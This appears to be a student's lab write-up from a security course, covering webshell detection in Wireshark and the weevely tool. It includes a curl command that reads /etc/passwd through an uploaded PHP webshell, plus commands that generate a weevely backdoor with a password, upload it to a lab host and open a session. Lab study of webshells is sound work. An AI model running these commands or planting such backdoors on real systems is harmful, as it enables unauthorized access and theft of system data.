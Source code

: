# Lab 8.1 - Weevely💡

Webshells like simple-backdoor.php are effective but are not terribly stealthy. Basic IDS/IPS systems will be able to detect "shell-like" behavior by seeing content that looks like commands, prompts and sensitive files like /etc/passwd.

Wireshark Capture of traditional webshellTarget pippin with a traditional webshell (one without encryption or obfuscation). Capture a dump of /etc/passwd using Wireshark on your wg0 interface.



## Deliverable 1. Provide a screenshot that shows the relevant tcp stream similar to the one below. Create a capture filter on port 80 when you do so.

![image-20221105205902211](./images/image-20221105205902211-1667696347658-1.png)

`curl 'http://10.0.5.25/upload/navarro.php?cmd=cat+/etc/passwd'`

![img](https://lh3.googleusercontent.com/ZvriBmNKkEeZZbJwIImROwXt_9QpjiwcG6_a3YaeM6j372IH0iOQk0OSr8x_l4OpCt_6j8tq2wfIYdddEs7zLuqhfHKykU3lnaTF3VXzonbi-2LUtqfHFtiyUvOIux3Mp_zQI8txeadEByYLQ0cnP_iG3I1YD7rc_FDiJUQzqwzJ74gIBOUe6VLgd4F8gw)



## Deliverable 2. Investigate weevely (a tool in kali). Create a php agent that is uniquely named, upload the agent to pippin and carry on a session similar to the one shown in the screenshot. Provide a screenshot of your session

To generate an agent I used the following link https://null-byte.wonderhowto.com/forum/hiob-generate-web-backdoors-php-using-weevely-kali-linux-0158905/

according to null-byte.wonderhowto.com. weevely generate [password] [path for agent to be saved]



First I used the following command to generate weevely:

`weevely generate LOL /home/champuser/Desktop/week8/door3.php`

And then uploaded the files inside the ftp server:

![image-20221105225453633](./images/image-20221105225453633-1667703318706-2.png)

Next I used the following command to login:

`weevely http://10.0.5.25/upload/door3.php LOL`

![image-20221105225909689](./images/image-20221105225909689-1667703552797-4.png)

































